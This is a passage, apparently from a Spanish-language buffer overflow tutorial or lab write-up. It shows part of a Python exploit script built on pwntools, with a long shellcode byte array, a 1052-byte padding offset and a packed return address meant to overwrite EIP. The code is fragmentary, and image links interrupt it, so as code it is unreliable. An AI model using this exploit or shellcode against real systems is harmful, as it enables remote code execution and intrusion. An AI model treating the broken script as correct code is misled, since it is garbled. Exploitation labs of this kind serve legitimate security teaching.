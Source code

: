 1. Cambiamos el script poniendole la nueva direccion

    import socket
![Buff-rotectio_false](/assets/images/Buff-protection_false.png) 
    import signal
    import pdb
    import sys
    import time
    from pwn import *
    from struct import pack

    # Variables globales
    remoteAddress = "127.0.0.1"

            b"\x68\x49\x97\x74\xe0\xac\xa6\xb4\x96\xa5\x99\x04\xdc\xeb\x15"
![Buff-executio-rihts-jmes](/assets/images/Buff-execution-rights-jmpesp.png) 
            b"\xee\xb0\x1f\xad\x82\x1c\x10\x06\x28\x7b\x1f\x97\x01\xbf\x3e"
            b"\x1b\x58\xec\xe0\x22\x93\xe1\xe1\x63\xce\x08\xb3\x3c\x84\xbf"
            b"\x23\x48\xd0\x03\xc8\x02\xf4\x03\x2d\xd2\xf7\x22\xe0\x68\xae"
            b"\xe4\x03\xbc\xda\xac\x1b\xa1\xe7\x67\x90\x11\x93\x79\x70\x68"
            b"\x5c\xd5\xbd\x44\xaf\x27\xfa\x63\x50\x52\xf2\x97\xed\x65\xc1"
            b"\xea\x29\xe3\xd1\x4d\xb9\x53\x3d\x6f\x6e\x05\xb6\x63\xdb\x41"
            b"\x90\x67\xda\x86\xab\x9c\x57\x29\x7b\x15\x23\x0e\x5f\x7d\xf7"
            b"\x2f\xc6\xdb\x56\x4f\x18\x84\x07\xf5\x53\x29\x53\x84\x3e\x26"
            b"\x90\xa5\xc0\xb6\xbe\xbe\xb3\x84\x61\x15\x5b\xa5\xea\xb3\x9c"
            b"\xca\xc0\x04\x32\x35\xeb\x74\x1b\xf2\xbf\x24\x33\xd3\xbf\xae"
            b"\xc3\xdc\x15\x60\x93\x72\xc6\xc1\x43\x33\xb6\xa9\x89\xbc\xe9"
            b"\xca\xb2\x16\x82\x61\x49\xf1\x6d\xdd\x51\x11\x06\x1c\x51\x10"
            b"\x6d\xa9\xb7\x78\x81\xfc\x60\x15\x38\xa5\xfa\x84\xc5\x73\x87"
            b"\x87\x4e\x70\x78\x49\xa7\xfd\x6a\x3e\x47\x48\xd0\xe9\x58\x66"
            b"\x7c\x75\xca\xed\x7c\xf0\xf7\xb9\x2b\x55\xc9\xb3\xb9\x4b\x70"
            b"\x6a\xdf\x91\xe4\x55\x5b\x4e\xd5\x58\x62\x03\x61\x7f\x74\xdd"
            b"\x6a\x3b\x20\xb1\x3c\x95\x9e\x77\x97\x57\x48\x2e\x44\x3e\x1c"
            b"\xb7\xa6\x81\x5a\xb8\xe2\x77\x82\x09\x5b\xce\xbd\xa6\x0b\xc6"
            b"\xc6\xda\xab\x29\x1d\x5f\xdb\x63\x3f\xf6\x74\x2a\xaa\x4a\x19"
            b"\xcd\x01\x88\x24\x4e\xa3\x71\xd3\x4e\xc6\x74\x9f\xc8\x3b\x05"
            b"\xb0\xbc\x3b\xba\xb1\x94")
        offset = 1052
        before_eip = b"A" * offset
        eip = pack("<I", 0x68a98a7b)
